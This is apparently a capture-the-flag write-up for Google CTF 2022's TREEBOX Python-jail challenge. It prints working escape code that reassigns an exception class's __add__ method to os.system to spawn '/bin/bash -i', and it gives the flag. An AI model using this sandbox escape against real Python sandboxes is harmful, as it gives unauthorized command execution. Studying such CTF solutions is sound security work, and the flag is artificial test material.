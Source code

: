 # Google CTF 2022
## TREEBOX

> I think I finally got Python sandboxing right.

> [Attachment](https://github.com/03npan/ctf-write-ups/blob/main/google_ctf_2022/sandbox/treebox/treebox)

## Summary

Declare an arbitrary exception class to do remote code execution.

## Detailed Solution

It's hard to tell what we can do if we connect to the server given. To get some clues, open up the attachment with a text editor. The Python jail continues to read input until we pass "--END" to the program, after which it compiles the input. The function `verify_secure` then checks for "banned statements", which appear to be imports and function calls - thus code like `import os`, `from os import *` and `os.getcwd()` won't let us break out.

If we can't make any calls, how can we execute arbitrary functions to find the flag then? We can declare an arbitrary exception class and do remote code execution by abusing a "magic method":

```
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```

(Other "magic methods" like `__sub__` and `__mul__` can be abused in a similar fashion.)

Pass that code in, then pass "--END" to the server. We see that we don't get the error message, nor do we get our prompt back. Check with `ls`, and sure enough, the flag file is there for us to read using `cat`.

![solution.png](https://github.com/03npan/ctf-write-ups/blob/main/google_ctf_2022/sandbox/treebox/solution.png)

Flag: `CTF{CzeresniaTopolaForsycja}`

*Original sandbox escape code from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls).*